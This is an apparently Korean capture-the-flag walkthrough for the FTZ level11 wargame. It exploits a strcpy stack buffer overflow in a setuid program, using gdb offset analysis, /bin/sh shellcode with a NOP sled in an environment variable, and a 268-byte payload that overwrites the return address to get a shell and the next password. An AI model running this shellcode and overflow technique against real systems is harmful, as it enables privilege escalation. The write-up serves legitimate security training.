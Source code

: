 # FTZ level11

ls 명령어를 사용해서 무엇이 있는지 확인해 보자.

__attackme , hint , public_html , tmp__ 

일단은 cat hint 명령어를 사용하여 힌트를 확인해 보자.  

```
#include <stdio.h>
#include <stdlib.h>
 
int main( int argc, char *argv[] )
{
	char str[256];

 	setreuid( 3092, 3092 );
	strcpy( str, argv[1] );
	printf( str );
} 
```

코드가 나오는데 str에 [256]버퍼를 담고 __setreuid( 3092, 3092 );__ setuid 설정 strcpy로 인자를 복사해 str에 넣어 출력하는 코드이다.  

이것은 버퍼오버플로우 문제이다. __strcpy__ 함수에는 큰 취약점이 하나 존재하는데 입력된 값의 버퍼를 확인하지 않고 복사해버리는 것이다. 그것을 이용하여 BOF를 하는 문제이다.

그럼 return address 까지의 버퍼를 찾아야 하기 때문에 gdb를 이용할 것이다.

___

gdb를 확인해보면 중간 코드에 

```
0x08048499 <main+41>:	lea    eax,[ebp-264]
0x0804849f <main+47>:	push   eax
0x080484a0 <main+48>:	call   0x804835c <strcpy>
```

이러 코드가 보일 것이다. 잘 생각해보면 버퍼가 코드에 비해 8더 많다는 것을 확인 할 수 있을 것이다. 8은 메모리 보호 기법에 의한 더미이다.

__메모리 보호 기법에 잠깐 설명하면 운영 체제에서 실행하고 있는 프로세스가 자신에게 할당되지 않은 영역의 메모리에 접근하는 것이 메모리 보호의 주된 목적이다.__

__이를 통해 프로세스 내의 버그가 다른 프로세스의 동작에 영향을 미치는 것을 예방하며 악성 소프트웨어가 시스템에서 허가되지 않은 접근 권한을 갖고 시스템에 영향을 끼치는 것을 막아준다.__

그럼 return address는 어디에 있을까?

| str [264]      | 할당된 버퍼이다. |
| -------------- | ---------------- |
| ebp            | base pointer     |
| return address | 여기가 그곳이다. |

조잡하지만 위를 잠깐 보자. 각 한 칸을 4바이트씩 차지 한다. 그럼 주소는 268이후에 있지 않을까?



___

이제 한번 시작해 보자.

NOP를 이용하여 풀것이기 때문에 환경변수를 이용할 것이다.

__NOP(0x90)은 어셈블리 언어로 아무것도 하지 않는 명령어이다. 그래서 NOP으로 쉘 코드의 앞뒤를 감싸게 되면 buf의 정확한 주소가 아닌 근사값의 주소여도 결국 쉘 코드가 실행될 수 있게된다.__

```
export EGG=`python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

환경변수에 쉘코드를 집어 넣고 넉넉하게 NOP를 1000번 입력할것이다. 

return address에는 쉘 코드가 아닌 주소가 들어가야 해야하다. 그러니 아주 짧은 코드를 짤 것이다.

cd tmp 명령어로 들어가자 tmp에서 코드를 짜보자

```
#include <stdio.h>

int main() {
        printf("%p\n", getenv("EGG"));
}
```

이런 씩의 코드이다. __getenv__ 함수는 환경 변수의 값을 가져오는 함수이다.

gcc를 이용하여 컴파일 후 실행을 해보면 주소값이 나온다.

나의 주소값은 __0xbffff4b4__이런게 나왔다. 메모리에 저장 되는 주소가 무작위이다 보니까 다 똑같이 나올 수 없다. 이제 대입만 하면 끝이 난다.

___

자 이제 원래 home으로 돌아와서 attackme 인자에 대입을 해보자.

```
./attackme `python -c 'print "A" * 268 + "\xb4\xf4\xff\xbf"'`
```

__"A" * 268__ 이부분은 버퍼와 ebp를 덮기 위해 아무 문자열이나 넣어준것이고 그 이후 return address에 쉘코드 주소값을 리틀 엔디안으로 넣어주면 쉘이 실행이된다. 만약 잘 모르겠다면 쉘 실행이후 __whoami__ 명령을 입력하면     level12라고 나온다. 

이제 my-pass 명령을 입력하면 __Level12 Password is "it is like this".__ 라면서 패스워가 나타난다.

